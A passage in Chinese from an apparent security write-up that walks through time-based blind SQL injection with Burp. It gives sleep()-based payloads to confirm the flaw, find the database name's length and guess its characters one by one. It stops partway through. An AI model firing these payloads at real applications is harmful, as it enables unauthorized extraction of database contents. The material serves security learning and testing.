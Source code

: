 使用 Burp 来测试延时注入，使用`t%' and if(1=1,sleep(3),2) #` 来判断是否存在注入

> if(1=1,sleep(3),2)，如果1=1，那么就睡眠3秒后执行，如果不就直接返回<br>

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1616073562166.png)

后面的注入跟布尔注入有点相似了

判断一下数据库的长度 `t%' and if((select length(database()))=7,sleep(3),2) %23`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1616074044273.png)

接下来猜解数据库的名称 `t%' and if((select ord(mid(database(),1,1)=118)),sleep(3),1) %23`<br>